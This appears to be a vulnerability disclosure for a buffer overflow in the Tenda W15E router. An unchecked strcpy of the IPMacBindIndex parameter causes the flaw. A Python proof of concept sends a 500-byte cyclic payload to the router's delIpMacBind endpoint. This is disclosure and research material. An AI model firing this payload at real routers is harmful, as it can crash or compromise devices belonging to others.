 # W15E buff overflow vulnerability
 
Vendor: Tenda W15E  
Version: US_W15EV1.0br_V15.11.0.7(752_816)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x000690C8. IndexSet gets the content of IPMacBindIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows:
![image](image/1.png)

POC:
'''py
import requests
from pwn import *

url='http://192.168.100.2/goform/delIpMacBind'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='IPMacBindIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
'''
